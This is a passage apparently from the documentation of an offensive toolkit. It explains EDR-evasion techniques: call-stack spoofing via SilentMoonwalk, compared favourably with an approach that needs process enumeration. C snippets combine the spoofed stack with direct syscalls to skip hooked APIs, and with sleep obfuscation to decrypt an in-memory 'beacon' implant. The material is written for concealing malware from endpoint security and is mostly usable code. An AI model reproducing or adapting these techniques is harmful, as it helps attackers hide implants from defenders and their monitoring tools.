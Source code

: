 **Limitations**:
- Requires finding suitable target thread (may fail)
- Stack structure can become stale if target thread changes
- `CreateToolhelp32Snapshot` is monitored by EDRs
- Target process may not have suitable call stacks

**Why SilentMoonwalk is Better**:
- No process enumeration (avoids detection)
- No target thread dependency (always works)
- Dynamic synthesis (never stale)
- ROP-based (more robust)

---

## Integration with Other Techniques

### Complementary Techniques

**Stack Spoofing + Syscalls** (NOCTIS-T001):
```c
// Use SysWhispers3 for syscall, SilentMoonwalk for stack
SPOOF_CONTEXT ctx;
if (!SilentMoonwalk_Initialize(&ctx, SPOOF_MODE_DESYNC)) {
    return FALSE;
}
if (!SilentMoonwalk_BuildSyntheticStack(&ctx, 3)) {
    SilentMoonwalk_Cleanup(&ctx);
    return FALSE;
}

// Call NtAllocateVirtualMemory via direct syscall with spoofed stack
PVOID result = SilentMoonwalk_CallWithSpoofedStack(
    &ctx,
    SW3_NtAllocateVirtualMemory,  // Direct syscall (no hooks)
    (PVOID)GetCurrentProcess(),
    &baseAddress,
    0,
    &regionSize
);
SilentMoonwalk_Cleanup(&ctx);
```

**Stack Spoofing + Sleep Obfuscation** (NOCTIS-T006):
```c
// Use Zilean for sleep, spoof stack during timer callback
ZILEAN_CONTEXT zileanCtx;
SPOOF_CONTEXT spoofCtx;

// Initialize both
Zilean_Initialize(&zileanCtx, ...);
SilentMoonwalk_Initialize(&spoofCtx, SPOOF_MODE_DESYNC);

// Custom callback with spoofed stack
VOID NTAPI SpoofedZileanCallback(PVOID param, BOOLEAN timerFired) {
    SilentMoonwalk_BuildSyntheticStack(&spoofCtx, 2);

    // Decrypt beacon with spoofed call stack
    SilentMoonwalk_CallWithSpoofedStack(
        &spoofCtx,
        AES256_Decrypt,
        beaconBase, beaconSize, key, iv
    );
}
```
